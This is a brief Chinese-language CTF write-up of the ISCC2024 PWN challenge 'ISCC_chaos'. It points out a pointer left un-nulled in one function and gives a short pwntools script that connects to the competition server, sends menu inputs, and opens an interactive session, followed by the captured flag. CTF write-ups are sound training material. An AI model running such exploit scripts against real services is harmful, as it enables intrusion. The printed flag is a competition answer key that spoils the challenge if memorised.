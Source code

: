# ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_chaos分析

checksec一下

![](image/image-20240520201351823.png)

使用IDA查看，

<img src="image/image-20240520201524893.png" style="zoom:67%;" />

查看sub_400C8A函数，可以发现一个指针未设NULl，所以可以访问内存空间

# exp

```python
from pwn import *
p = remote('182.92.237.102',10010)
p.recv()
p.recv()
p.sendline(b'5')
p.recv()
p.sendline(b'104')
p.recv()
p.sendline(b'Flag')
p.interactive()
```

# flag

```
ISCC{wRrJ29UFCeXbZopG8G0YKGXpye6m2hgGUH8v}
```

